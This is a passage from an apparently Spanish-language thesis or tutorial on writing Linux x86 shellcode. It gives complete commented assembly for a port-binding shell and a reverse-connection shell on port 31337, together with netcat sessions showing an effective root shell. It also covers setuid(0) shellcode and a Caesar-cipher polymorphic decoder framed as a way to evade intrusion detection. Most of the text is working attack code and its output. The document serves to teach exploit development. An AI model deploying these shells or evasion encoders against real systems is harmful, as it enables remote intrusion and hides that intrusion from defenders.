		; se empilan en orden inverso
		; Dentro de socketcall(), la llamada socket es la numero uno.
		inc ebx
		; Se empila el tercer parametro, protocol = 0.
		push edx
		; Se empila el segundo parametro, SOCK_STREAM = 1.
		push byte 0x1
		; Se empila el primer parametro, AF_INET = 2
		push byte 0x2
		; En ecx se almacena la direccion donde estan ubicados los parametros.
		mov ecx, esp
		; Syscall socketcall() con la funcion socket().
		int 0x80
		
		; Se guarda el descriptor obtenido en esi para usarlo despues
		xchg esi, eax

		; bind(s, [2, 31337, 0], 16);
		; Llamada al sistema 102, socketcall().
		push byte 0x66
		; En eax se almacena el numero 102.
		pop eax
		; Se construyen los argumentos de la llamada a bind() y 
		; se empilan en orden inverso
		; Ebx era 1, ahora es 2. Dentro de socketcall() la llamada bind es la dos.
		inc ebx
		; Se empila el tercer parametro del struct, INADDR_ANY = 0.
		push edx
		; Se empila el segundo parametro del struct, PORT = 31337.
		push word 0x697a
		; Se empila el primer parametro del struct, AF_INET = 2. Ebx = 2.
		push word bx
		; En ecx se almacena la direccion del struct con los parametros.
		mov ecx, esp
		; Se empilan todos los parametros en orden inverso para posteriormente
		; obtener su direccion.
		; Se empila el tamano del struct, sizeof(server_struct) = 16
		push byte 16
		; Se empila la direccion del struct.
		push ecx
		; Se empila el descriptor obtenido anteriormente.
		push esi
		; En ecx se guarda la direccion donde estan todos los parametros.
		mov ecx, esp

		; Syscall socketcall() con la funcion bind().
		int 80h

		; listen(s, 4);
		; Llamada al sistema 102, socketcall(). Sin push/pop se ahorra un byte.
		mov byte al, 0x66
		; Se construyen los argumentos de la llamada a listen() y 
		; se empilan en orden inverso
		; Realizar dos inc ocupa lo mismo que un mov byte bx, 0x4.
		inc ebx
		; Dentro de socketcall(), la llamada listen es la cuatro.
		inc ebx
		; Se empila el segundo parametro, backlog = 4. Maximo num conexiones en cola.
		push ebx
		; Se empila el descriptor obtenido por la llamada socket().
		push esi
		; En ecx se almacena la direccion de los parametros.
		mov ecx, esp
		; Syscall socketcall() con la funcion listen().
		int 80h

		; c = accept(s, 0, 0);
		; Llamada al sistema 102, socketcall(). Sin push/pop se ahorra un byte.
		mov byte al, 0x66
		; Se construyen los argumentos de la llamada a accept() y 
		; se empilan en orden inverso
		; Dentro de socketcall(), la llamada accept es la numero cinco.
		inc ebx
		; Se empila el tercer parametro.
		push edx
		; Se empila el segundo parametro.
		push edx
		; Se empila el descriptor obtenido anteriormente.
		push esi
		; En ecx se almacena la direccion de los parametros.
		mov ecx, esp
		; Syscall socketcall() con la funcion accept(). Conection descriptor in eax.
		int 80h
	
		; En eax se almacena un cinco y en ebx el descriptor devuelto por accept().
		xchg eax, ebx
	
		; dup2(descriptor aceptado, descriptores I/O estandar);
		; Maximo descriptor estandar almacenado en ecx.
		push byte 0x2
		pop ecx
		; Etiqueta para el bucle.
		dup_l00p:
		; Llamada al sistema 63. Se debe poner dentro del bucle.
		; Eax se sobreescribe con el valor de retorno de dup2().
		mov byte al, 0x3F
		; Syscall dup2().
		int 80h
		; Se Decrementa el descriptor estandar hasta que sea cero.
		dec ecx
		; Se salta a la etiqueta hasta que el flag de signo sea uno = ecx negativo.
		jns dup_l00p

		; execve(const char * file, char * const argv[], char * const envp[]);
		xor eax, eax
		mov byte al, 11
		push edx
		push 0x68732f2f
		push 0x6e69622f
		mov ebx, esp
		push edx
		mov edx, esp
		push ebx
		mov ecx, esp
		int 80h
\end{lstlisting}


La parte de c\'odigo que no est\'a comentada es la que ya se ha explicado anteriormente en el apartado de $shellcodes$ locales. La \'unica diferencia es que el registro $edx$ no se inicializa a cero ya que una vez se alcanza la parte de c\'odigo del $execve$ $shellcode$, $edx$ ya es cero. Por otro lado, el puerto al que se escucha tambi\'en se ha modificado. Ahora ya no es el puerto 12345, sino el 31337.\\

En el C\'odigo \ref{fig:ExecutingPortBindingASM} se muestra el comportamiento del $shellcode$ de vinculaci\'on a un puerto y se podr\'a comprobar como es el mismo que el visto cuando el c\'odigo fuente fu\'e escrito en $C$.

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Ejecuci\'on del $shellcode$ de vinculaci\'on a un puerto en ensamblador}
%   	\label{fig:ExecutingPortBindingASM}   		
%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on del $shellcode$ de vinculaci\'on a un puerto en ensamblador, label=fig:ExecutingPortBindingASM]
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/PortBinding/ASMSource$ 
		./genExec.sh PortBinding.S 
		####      Generating executable...       ####
		sourceDOTo = PortBinding.o
		executable = PortBinding
		[sudo] password for newlog: 
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/PortBinding/ASMSource$ 
		./PortBinding
\end{listing}
%	\end{verbatim} \botfigrule

Como se puede ver, en el C\'odigo \ref{fig:ExecutingPortBindingASM} se compila el $shellcode$ escrito en ensamblador a partir del $script$ $genExec.sh$. Tal y como se ha comentado, todos los detalles sobre la compilaci\'on de los diferentes c\'odigos de esta investigaci\'on se dan en el Ap\'endice II. Cabe destacar que una vez se ha generado el ejecutable, se le otorgan privilegios de $root$. En el C\'odigo \ref{fig:ConnectingToPortBindingASM} se muestra como conectar con el $shellcode$ y como una vez se ha conectado se dispone de un identificador de usuario efectivo de $root$, lo que permite realizar las mismas operaciones que podr\'ia realizar el usuario $root$. Una breve explicaci\'on sobre el significado que atributos como $uid$ o $euid$ se da en los pr\'oximos cap\'itulos.

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Conexi\'on al $shellcode$ de vinculaci\'on a un puerto en ensamblador}
%   	\label{fig:ConnectingToPortBindingASM}   		
%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=Conexi\'on al $shellcode$ de vinculaci\'on a un puerto en ensamblador, label=fig:ConnectingToPortBindingASM]	
		newlog@Beleriand:~$ id
		uid=1000(newlog) gid=1000(newlog),grupos=4(adm),20(dialout),
		24(cdrom),46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		newlog@Beleriand:~$ nc -vv 127.0.0.1 31337
		Connection to 127.0.0.1 31337 port [tcp/] succeeded!
		id
		uid=1000(newlog) gid=1000(newlog) euid=0(root),groups=4(adm),20(dialout),
		24(cdrom),46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		pwd
		/home/newlog/Documentos/Shellcoding/Codigos/PortBinding/ASMSource
		exit
\end{listing}
%	\end{verbatim} \botfigrule

\pagebreak
\subsubsection{Reverse connection shellcode}

El desarrollo de este tipo de $shellcodes$ parte de la necesidad de saltarnos las restricciones que implementa un cortafuegos.\\
Normalmente, la mayor\'ia de cortafuegos filtran el tr\'afico entrante de un ordenador o una red de ordenadores. Sin embargo, el tr\'afico saliente no acostumbra  a estar bloqueado ya que en la mayor\'ia de casos ocasionar\'ia m\'as problemas de los que solucionar\'ia.\\
As\'i pues, el $reverse$ $connection$ $shellcode$, $shellcode$ de conexi\'on inversa, a diferencia del $shellcode$ de vinculaci\'on a un puerto, se encarga de realizar una conexi\'on saliente del ordenador vulnerado hacia una m\'aquina especificada en el mismo $shellcode$.\\
En $C$, el $shellcode$ de conexi\'on inversa se puede implementar como en el C\'odigo \ref{fig:reverseC}. \\

\lstset{language=C++,caption=$Shellcode$ de conexi\'on inversa en C,label=fig:reverseC}
\begin{lstlisting}	
		#include <sys/socket.h>
		#include <netinet/in.h>
		int main () {
					char * shell[2];
					int soc, rc;
					struct sockaddr_in serv_addr;
		
					serv_addr.sin_family = 2;
					serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
					serv_addr.sin_port = htons("12345");
		
					soc = socket(2, 1, 0);
					rc = connect(soc, (struct sockaddr *) &serv_addr, 0x10);
					dup2(soc, 0); dup2(soc, 1); dup2(soc, 2);

					shell[0] = "/bin/sh";
					shell[1] = 0;					
		 			execve(shell[0], shell, 0);
		}
\end{lstlisting}

El c\'odigo de este $shellcode$ es muy parecido al del $port$ $binding$ $shellcode$. Como ya se ha comentado, este c\'odigo se conectar\'a a un $socket$ que est\'e a la escucha, en vez de ser \'el mismo el que est\'e a la escucha.\\
En la sexta l\'inea, se declara la estructura $sockaddr$\_$in$ que es la que se ha de especificar para llevar a cabo o para recibir una conexi\'on.\\
En la s\'eptima l\'inea, el n\'umero dos es el valor que tiene la constante AF\_INET, igual que en la l\'inea n\'umero diez. En la misma l\'inea n\'umero diez, el n\'umero uno es el valor de la constante SOCK\_STREAM y con el 0 se especifica el protocolo.\\
En la octava l\'inea, se especifica que la direcci\'on $ip$ a la que conectar. La funci\'on $inet$\_$addr()$ permite al programador asignar una direcci\'on $ip$ a una variable de un modo mucho m\'as legible. Lo mismo ocurre con la funci\'on $htons()$. Para comprender el funcionamiento de estas dos funciones, basta con ejecutar en un terminal los comandos $man$ $3$ $inet$\_$addr$ y $man$ $htons$ respectivamente.\\
En la l\'inea 10 se crea un $socket$ con los par\'ametros que se han explicado anteriormente. Este $socket$ ser\'a el identificador de la conexi\'on a partir de este momento.\\
En la l\'inea 11, se intenta conectar a partir de los datos especificados en la creaci\'on del $socket$ y de la estructura $sockaddr$\_$in$.
Acto seguido, se duplican los descriptores de entrada y salida tal y como ya se ha explicado en los cap\'itulos anteriores y por \'ultimo se ejecuta la $shell$ que ser\'a brindada al usuario.\bigskip

Una vez visto el c\'odigo fuente en $C$ del $shellcode$ de conexi\'on inversa, el C\'odigo \ref{fig:reverseASM} muestra una posible implementaci\'on en ensamblador. Al igual que con el $shellcode$ de vinculaci\'on a un puerto, el c\'odigo fuente se comentar\'a en el mismo c\'odigo en vez de hacerlo posteriormente. \\

\lstset{language=[x86masm]Assembler,caption=$Shellcode$ de conexi\'on inversa en ensamblador,label=fig:reverseASM}
\begin{lstlisting}	
		BITS 32
		section .text
		global _start
		_start:

		; syscall socketcall(ebx, ecx) donde ebx = numero funcion 
		; y ecx = direccion de parametros de funcion

		; s = socket(2, 1, 0);
		; Llamada al sistema 102, socketcall().
		push byte 0x66
		; En eax almacenamos el numero 102.
		pop eax
		; Ponemos a cero el registro edx.
		cdq
	    ; Ponemos a cero el registro ebx.
		xor ebx, ebx
		; Construimos los argumentos de la llamada a socket() 
		; y los empilamos en orden inverso
		; Dentro de socketcall(), la llamada socket es la numero uno.
		inc ebx
		; Empilamos el tercer parametro, protocol = 0.
		push edx
		; Empilamos el segundo parametro, SOCK_STREAM = 1.
		push byte 0x1
		; Empilamos el primer parametro, AF_INET = 2
		push byte 0x2
		; En ecx almacenamos la direccion donde estan ubicados los parametros.
		mov ecx, esp
		; Syscall socketcall() con la funcion socket().
		int 0x80

		; Se guarda el descriptor obtenido en esi para usarlo despues.
		xchg esi, eax

		; connect(s, [2, 31337, <IP>], 16);
		; Llamada al sistema 102, socketcall().
		push byte 0x66
		; En eax se almacena el numero 102.
		pop eax
		; Ebx = 2 para utilizarlo como la constante AF_INET.
		inc ebx
		; Se construyen los argumentos de la llamada connect() 
		; y se empilan en orden inverso.
		; Se empila la direccion IP. Las 'b' sustituyen a bytes nulos 
		; que se modificaran en tiempo de ejecucion.
		; Se impila la direccion IP. 7f = 127, 01 = 1, bb = 187. Tercer parametro.
		push dword 0x01bbbb7f
		; Se pone a cero el registro ecx.
		xor ecx, ecx
		; Se sustituyen las 'b' de la IP por ceros. IP = 127.0.0.1.
		mov word [esp+1], cx
		; Se empila el puerto 31337. 7a69h = 31337d. Segundo parametro.
		push word 0x697a
		; Se empila el primer parametro de la estructura. AF_INET = 2 = Ebx.
		push word bx
		; En ecx se almacena la direccion de la estructura.
		mov ecx, esp
		; Se empila el tercer parametro de la funcion connect().
		push byte 16
		; Se empila la direccion de la estructura construida como segundo parametro.
		push ecx
		; Se empila el primer parametro. El descriptor obtenido por socket().
		push esi
		; En ecx se almacena la direccion de todos los params de la funcion connect().
		mov ecx, esp
		; Dentro de socketcall(), la llamada connect() es la tercera.
		inc ebx
		; Syscall socketcall() con la funcion connect().
		int 80h

		mov ebx, esi
		; dup2(descriptor aceptado, descriptores I/O estandar);
		; Maximo descriptor estandar almacenado en ecx.
		push byte 0x2
		pop ecx
		; Etiqueta para el bucle.
		dup_l00p:
		; Llamada al sistema 63. Se debe poner dentro del bucle.
		; Eax se sobreescribe con el valor de retorno de dup2().
		mov byte al, 0x3F
		; Syscall dup2().
		int 80h
		; Se Decrementa el descriptor estandar hasta que sea cero.
		dec ecx
		; Se salta a la etiqueta hasta que el flag de signo sea uno = ecx negativo.
		jns dup_l00p
	
		; execve(const char * file, char * const argv[], char * const envp[]);
		xor eax, eax
		mov byte al, 11
		push edx
		push 0x68732f2f
		push 0x6e69622f
		mov ebx, esp
		push edx
		mov edx, esp
		push ebx
		mov ecx, esp
		int 80h
\end{lstlisting}

Por \'ultimo, cabe destacar que si una direcci\'on $IP$ que se inserta en el $shellcode$ contiene $bytes$ nulos, el $shellcode$ contendr\'a $bytes$ nulos y, por consiguiente, no se ejecutar\'a correctamente. Para plantear una soluci\'on a este problema se utilizar\'a un ejemplo para ilustrar la metodolog\'ia a seguir en estos casos.\bigskip

Imagine que el $shellcode$ de conexi\'on inversa se tuviera que conectar a la $ip$ de $loopback$, 127.0.0.1 donde 127 en hexadecimal equivale a 7f, 0 a 00 y 1 a 01. Como se puede apreciar a simple vista, dicha $ip$ contiene $bytes$ nulos, as\'i que si se utilizara un c\'odigo tal que el \ref{fig:nullByteInsertion} para almacenar la direcci\'on $ip$  en el $shellcode$, \'este no se ejecutar\'ia correctamente.

\lstset{language=[x86masm]Assembler,caption=Inserci\'on erronea de un $byte$ nulo,label=fig:nullByteInsertion}
\begin{lstlisting}		
		BITS 32
		xor eax, eax
		push DWORD 0x0100007f
		pop eax
\end{lstlisting}

Recordemos que debido a que el sistema sobre el que se trabaja est\'a basado en una arquitectura $little$ $endian$, las inserciones en la pila de varios $bytes$ se deben realizar de manera inversa a su lectura, de izquierda a derecha.\\
Despu\'es de ejecutar este c\'odigo, en $eax$ se deber\'ia almacenar el valor en hexadecimal de la $ip$. Sin embargo, esto no ocurrir\'a ya que la funci\'on con la que obtenemos el c\'odigo del $shellcode$ no pasar\'a del momento en el que se encuentre con el primer $byte$ nulo.\\
Un c\'odigo que solucionar\'ia dicho problema es el citado en el C\'odigo \ref{fig:nullByteSolution}:\\

\lstset{language=[x86masm]Assembler,caption=Soluci\'on a la inserci\'on erronea de un $byte$ nulo,label=fig:nullByteSolution}
\begin{lstlisting}			
		BITS 32
		xor eax, eax
		push DWORD 0x01BBBB7f
		mov WORD [esp+1], ax
		pop eax
\end{lstlisting}

En la segunda l\'inea se almacena la $ip$ en la pila, pero en vez de insertar los $bytes$ nulos, los substituimos por cualquier otro valor que no genere conflictos. En la siguiente l\'inea, se escribe en la pila el contenido del registro $ax$. El registro $ax$ contiene $bytes$ nulos debido a que se ha realizado una correcta inicializaci\'on. Estos $bytes$ nulos se escriben en la posici\'on $esp$+1, lo cual colocar\'a 16 $bits$ -tama\~no del registro $ax$- a cero en la posici\'on $esp$ + 1 $byte$. Como se puede comprobar, en el $shellcode$ de conexi\'on inversa citado en el C\'odigo \ref{fig:reverseASM} ya se ha utilizado esta t\'ecnica.

Para comprobar que el $shellcode$ de conexi\'on inversa funciona correctamente se ha de proceder tal y como se muestra en el C\'odigo \ref{fig:ListeningNetcat} y el C\'odigo \ref{fig:ConnectingToNetcat}.

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Netcat a la escucha}
%   	\label{fig:ListeningNetcat}   		
%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=Netcat a la escucha, label=fig:ListeningNetcat]	
		newlog@Beleriand:~$ nc -lvv 127.0.0.1 31337
		Connection from 127.0.0.1 port 31337 [tcp/] accepted
		id
		uid=1000(newlog) gid=1000(newlog) euid=0(root),groups=4(adm),20(dialout),
		24(cdrom),46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		pwd
		/home/newlog/Documentos/Shellcoding/Codigos/ReverseConnection/ASMSource
		exit
		newlog@Beleriand:~$ pwd
		/home/newlog
\end{listing}
%	\end{verbatim} \botfigrule

En el C\'odigo \ref{fig:ListeningNetcat} primero de todo se pone la herramienta Netcat a la escucha de conexiones en el puerto 31337. Una vez se conecta el $shellcode$ de conexi\'on inversa a Netcat, el $shellcode$ lanza una l\'inea de comandos que permite al usuario que ha puesto Netcat a la escucha ejecutar comandos. Acto seguido, se ejecuta el comando $id$ para demostrar que el identificador de usuario efectivo es el del usuario $root$. Despu\'es se ejecuta el comando $pwd$ mientras el usuario dispone de la l\'inea de comandos lanzada por el $shellcode$ y una vez se finaliza dicha l\'inea de comandos se vuelve a ejecutar el comando $pwd$ para demostrar que su salida no es la misma y que, por tanto, los comandos ejecutados por el usuario se estaban ejecutando en la l\'inea de comandos lanzada por el $shellcode$.\bigskip

El C\'odigo \ref{fig:ConnectingToNetcat} muestra como se compila y se ejecuta el c\'odigo del $shellcode$ de conexi\'on inversa.

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Netcat a la escucha}
%   	\label{fig:ConnectingToNetcat}   		
%	\begin{verbatim}
\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on del $shellcode$, label=fig:ConnectingToNetcat]	
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/ReverseConnection/ASMSource$ 
		./genExec.sh ReverseConnection.S 
		####      Generating executable...       ####
		sourceDOTo = ReverseConnection.o
		executable = ReverseConnection
		[sudo] password for newlog: 
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/ReverseConnection/ASMSource$ 
		./ReverseConnection 
\end{listing}
%	\end{verbatim} \botfigrule

\pagebreak

\section{Hacking de shellcodes}
El hecho de crear un $shellcode$ funcional ya se puede considerar $hacking$, sin embargo, en este apartado se incluyen t\'ecnicas que distan mucho de ser simples optimizaciones. En este apartado trataremos los aspectos m\'as avanzados en el desarrollo de $shellcodes$.  Haciendo una breve enumeraci\'on, los conceptos que se tratar\'an son el de reutilizaci\'on de las variables del programa exploratdo, reutilizaci\'on de los sockets y los descriptores de archivo, la recuperaci\'on de los privilegios de $root$ al explotar una aplicaci\'on y la codificaci\'on y decodificaci\'on al vuelo de los $shellcodes$.\\

\subsection{Cuesti\'on de privilegios}

En este apartado se explicar\'a un concepto que se deber\'ia implementar en la mayor\'ia de shellcodes, previniendo as\'i uno de los m\'etodos con el que algunos de los programadores m\'as precavidos intentar\'an proteger su aplicaci\'on.\bigskip

Antes de entrar en una explicaci\'on sobre desarrollo de esta t\'ecnica, se deben explicar algunos de los atributos de un proceso, el $uid$ y el $euid$.\\
El $uid$\footnote{$User$ $Identifier$, identificador de usuario.} es el atributo de un proceso que indica quien es el propietario actual de dicho proceso. Por ejemplo, si un usuario est\'andar intentara eliminar un proceso del que no es propietario, el sistema no lo permitir\'ia. Adem\'as de los procesos, los ficheros y los directorios tambi\'en disponen del atributo $uid$. As\'i, si un proceso intenta ejecutar una operaci\'on sobre un fichero, el $kernel$ comprobar\'a si el $euid$\footnote{Efective User Identifier, identificador de usuario efectivo.} del proceso coincide con el $uid$ del fichero.\\
As\'i pues, el $uid$ es el identificador de usuario real que coincide con el identificador del usuario que arranc\'o el proceso. El $euid$ es el identificador de usuario efectivo y se le llama as\'i debido a que es el identificador que se tiene en cuenta a la hora de considerar permisos. Se utiliza para determinar el propietario de los ficheros reci\'en creados, para permitir el acceso a los ficheros de otros usuarios\ldots\\
A continuaci\'on hay un ejemplo para acabar de entender la utilidad de estos dos atributos:\\
Normalmente, el $uid$ y el $euid$ coinciden, sin embargo, si un usuario U1 ejecuta un programa P que pertenece a otro usuario U2 y que tiene activo el bit $S_ISUID$, entonces el proceso asociado a la ejecuci\'on de P (por parte de U1) va a cambiar su $euid$ y tomar\'a el valor del $uid$ del usuario U2. Por tanto, el $uid$ y el $euid$ no coincidiran. El primero har\'a referencia al usuario U1 y el segundo al usuario U2.\bigskip

Una vez explicado lo anterior, se presentar\'a c\'omo los programadores m\'as h\'abiles o concienciados intentan proteger sus programas y c\'omo se pueden saltar estas medidas de seguridad. A partir de ahora, el m\'etodo que veremos para saltarnos esta medida de seguridad lo incluiremos en el conjunto de $shellcodes$, sin embargo, por si s\'olo, este $shellcode$ ser\'ia in\'util. Esta t\'ecnica es conocida como $setuid$ $shellcode$.\\
Cual es la problem\'atica? Normalmente, cuando un programa es explotado para conseguir privilegios de $root$, el atacante -su proceso- recibe un $euid$ igual a cero, cuando en realidad lo que realmente se necesita es un $uid$ igual a cero\footnote{El $uid$ que identifica al $root$ es el 0.}. Solucionar este problema es muy simple y es de lo que se encarga la funci\'on $setuid(in);$. En el C\'odigo \ref{fig:setuidC} se muestra el c\'odigo fuente en $C$ y en el C\'odigo \ref{fig:setuidShellcode} su respectiva implementaci\'on en ensamblador.

\lstset{language=C++,caption=Funci\'on $setuid$ en C,label=fig:setuidC}
\begin{lstlisting}			
		#include <stdio.h>
		int main(void) {
			setuid(0);
		}
\end{lstlisting}

\lstset{language=[x86masm]Assembler,caption=Funci\'on $setuid$ en ensamblador,label=fig:setuidShellcode}
\begin{lstlisting}			
	BITS 32
	xor ebx, ebx
	lea eax, [ebx+0x17]
	int 0x80
\end{lstlisting}

Con el C\'odigo \ref{fig:setuidShellcode} se establece el $uid$ del proceso a cero. Este mismo $shellcode$ podr\'ia haberse implementado de un modo m\'as claro, tal y como se ve en el C\'odigo \ref{fig:setuidShellcodeBasico}.

\lstset{language=[x86masm]Assembler,caption=Funci\'on $setuid$ en ensamblador sin optimizar,label=fig:setuidShellcodeBasico}
\begin{lstlisting}				
		BITS 32
		xor eax, eax
		xor ebx, ebx
		mov al, 0x17
		int 0x80
\end{lstlisting}

Como se puede apreciar, la tercera instrucci\'on del C\'odigo \ref{fig:setuidShellcode} se encarga de insertar un 0x17 en el registro $eax$ gracias a que $ebx$ est\'a inicializado a cero. La instrucci\'on $lea$\footnote{$Load$ $Effective$ $Address$} se encarga de cargar la direcci\'on efectiva calculada en una expresi\'on. En el ejemplo presentado, $lea$ $eax$, $[ebx+0x17]$, en el registro $eax$ se carga la direcci\'on calculada a partir de sumar el contenido del registro $ebx$ m\'as el valor 17 en hexadecimal. Gracias a que el registro $ebx$ est\'a a 0, en el registro $eax$ se almacena el valor hexadecimal 17. La diferencia con, por ejemplo, la instrucci\'on $mov$ $eax$, $[ebx+0x17]$ es que en el registro $eax$ se almacenar\'ia el contenido de la direcci\'on de memoria calculada a partir del contenido del registro $ebx$ m\'as el valor 17 en hexadecimal. Gracias a esta peque\~na optimizaci\'on se ahorra un $byte$.

\subsection{Shellcode polim\'orfico}
Hoy en d\'ia los $firewalls$, antivirus, sistemas de detecci\'on de intrusiones, etc hacen que la explotaci\'on de vulnerabilidades sea una tarea bastante ardua. Sin embargo, cuando se nos intenta obligar a pisar el freno, nosotros, los $hackers$, no hacemos m\'as que pisar el acelerador.\bigskip

Esta t\'ecnica responde a la necesidad de que los sistemas de detecci\'on de intrusiones ($IDS$) no sean capaces de detectar que nuestro $shellcode$ se va a ejecutar.\\
La mayor\'ia de $shellcodes$ siguen unos patrones bastante generalizados, as\'i que los $IDS$ s\'olo han de detectar dichos patrones para frustrar nuestra explotaci\'on. Lo que haremos para saltarnos esta protecci\'on es codificar el $shellcode$ y en tiempo de ejecuci\'on nuestro $exploit$ lo decodificar\'a y ejecutar\'a.\\
Existen algunos $plugins$\footnote{Un $plugin$ es una herramienta que se puede anexar a un programa para aumentar sus funcionalidades.} para $IDS$ que se encargan de detectar estos m\'etodos y decodificar el $shellcode$, sin embargo, hay dos razones por las cuales estos $IDS$ no son funcionales. La primera es que su consumo de $CPU$ es muy elevado. La segunda es que siempre podremos ir un paso m\'as all\'a que el $IDS$ y codificar el $shellcode$ de modo que el $IDS$ no lo pueda decodificar. El l\'imite yace en el l\'imite de nuestra imaginaci\'on.\bigskip

Para ejemplificar este $hack$\footnote{El t\'ermino $hack$, al igual que $hacker$, no es f\'acil de definir puesto que se trata de una idea m\'as que de un hecho concreto u objeto. Cuando en este texto se utilice la palabra $hack$ se referir\'a a toda aquella modificaci\'on de un objeto, programa o idea que adapte sus funcionalidades a un prop\'osito espec\'ifico de un modo creativo o poco convencional.} de una manera simple, imaginaremos que nuestro $exploit$ s\'olo le sumar\'a un n\'umero aleatorio constante a cada $byte$ de nuestro $shellcode$. Este tipo de cifrado es muy ant\'iguo y es conocido como $Cifrado$ $del$ $C$\'e$sar$.\\
En pseudoc\'odigo nuestro cifrador ser\'ia semejante al mostrado en el C\'odigo \ref{fig:pseudopolimorfico}.\\

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Pseudoc\'odigo del cifrador}
%   	\label{fig:pseudopolimorfico}   		
%	\begin{verbatim}
\lstset{language=C++,caption=Pseudoc\'odigo del cifrador,label=fig:pseudopolimorfico}
\begin{lstlisting}				
		num es entero
		num = numAleatorio();
		para (x = 0 hasta longitudShellcode) 
					shellcode[x] = shellcode[x] + num;
		finpara
\end{lstlisting}
%	\end{verbatim} \botfigrule

Donde $longitudShellcode$ es el n\'umero de $bytes$ de nuestro $shellcode$, y $shellcode$ es un $array$ con nuestro $shellcode$ en hexadecimal.\\
El codificador no tiene porqu\'e estar implementado en ensamblador ya que \'este ser\'a ejecutado por el $exploit$ y no necesita saber direcciones relativas al c\'odigo en memoria, sino que s\'olo modificar\'a el array que contiene el $shellcode$ original. Sin embargo, el decodificador lo tendremos que implementar en ensamblador ya que \'este preceder\'a a nuestro $shellcode$ codificado y tendr\'a que saber cual es su ubicaci\'on en memoria.\\
Aunque parezca muy complicado a simple vista, la verdad es que es m\'as complicado entender la explicaci\'on que el mismo c\'odigo. Para empezar implementaremos el decodificador en ensamblador tal y como se muestra en el C\'odigo \ref{fig:decoderShellcode}.

\lstset{language=[x86masm]Assembler,caption=Decodificador en ensamblador,label=fig:decoderShellcode}
\begin{lstlisting}				
		BITS 32
		jmp short jmptrick
		decodificador:
		pop esi
		xor ecx, ecx
		mov cl, 0
		bucle:
		sub byte [esi + ecx - 1], 0
		dec cl
		jnz bucle
		jmp short codedShellcode
		jmpTrick
		call decodificador
		codedShellcode:
\end{lstlisting}

Por la estructura del C\'odigo \ref{fig:decoderShellcode} ya se tendr\'ia que ver a simple vista que se utiliza el $jmp/call$ $trick$. Despu\'es de la etiqueta $codedShellcode$ tendremos nuestro $shellcode$ codificado. As\'i pues, gracias al $jmp/call$ tendremos la direcci\'on de memoria donde se encuentra nuestro $shellcode$ -de momento, codificado- en el registro $esi$ (l\'inea cuatro).\\
En la sexta l\'inea hemos de substituir el primer cero por la longitud del $shellcode$ codificado. De la s\'eptima l\'inea a la d\'ecima tenemos un bucle en el que se pasa por todos los $bytes$ del $shellcode$ codificado y se les resta el n\'umero aleatorio utilizado para codificar el $shellcode$. Dicho lo anterior, deber\'ia ser obvio que en la octava l\'inea el segundo cero se debe substituir por el natural utilizado para codificar el $shellcode$. Lo que se realiza exactamente en la octava l\'inea es restar el segundo cero al contenido de la direcci\'on de memoria $esi+ecx-1$. Si no se restara ese 1, al principio del bucle ir\'iamos un $byte$ m\'as all\'a de nuestro $shellcode$. \bigskip

Imaginemos que '$casa$' es nuestro $shellcode$. En $ecx$ guardamos la longitud del $shellcode$. Como se ve, si no rest\'aramos uno, en la primera vuelta del bucle restar\'iamos el segundo cero al contenido de una direcci\'on de memoria que no contendr\'ia el $shellcode$.\\
Despu\'es de la instrucci\'on $sub$, se decrementa $ecx$ y se compara si es igual a cero. Si es diferente a cero significa que aun no se ha decodificado nuestro $shellcode$. Si es cero se salta a la etiqueta $codedShellcode$. Se debe tener presente que este salto llevar\'a a la direcci\'on de memoria donde \textbf{antes} se ten\'ia el $shellcode$ codificado, donde apunta $esi$. Gracias a todo el proceso anterior, en $esi$ se tendr\' el $shellcode$ ya decodificado y listo para ejecutar sin que sea detectado. Se acaba de escribir lo que se llama un $shellcode$ polim\'orfico.\bigskip

Todo lo que se ha hecho hasta ahora es correcto, pero aun falta el c\'odigo que junte el codificador, el decodificador y el $shellcode$ y los haga funcionar con armonia.\\
Para implementar este c\'odigo utilizar\'a el $execve$ $shellcode$ visto en los cap\'itulos anteriores para que el c\'odigo quede m\'as claro. En este apartado, se ejecutar\'a el $shellcode$ tal y como se ejecuta en un $exploit$ real. El c\'odigo del $shellcode$ ya no se compilar\'a con $nasm$ sino que se utilizar\'a un c\'odigo en $C$ y se almacenar\'a en un puntero de tipo $char$. Del c\'odigo fuente en ensamblador del $shellcode$ se obtendr\'an los $opcodes$\footnote{Un $opcode$ es el c\'odigo m\'aquina equivalente a una instrucci\'on en ensamblador. Por ejemplo, el $opcode$ de la instrucci\'on $cdq$ es 99.}. Este conjunto de $opcodes$ se almacenar\'an en alguna posici\'on de memoria y se utilizar\'a un peque\~no $hack$ para ejecutarlo.\bigskip

El $script$ especificado en el C\'odigo \ref{fig:vlanScript}\footnote{El $script$ utilizado para extraer los $opcodes$ del ejecutable fu\'e escrito por $vlan7$, un usuario de la comunidad de $Wadalbertia$.} permite extraer los $opcodes$ de un ejecutable. \\

%\begin{figure}[!hbp]
%	\topfigrule
%	\centering
%   	\addtolength{\abovecaptionskip}{-12pt}   	
%   	\renewcommand{\figurename}{C\'odigo}
%   	\caption{Decodificador en ensamblador}
%   	\label{fig:vlanScript}   		
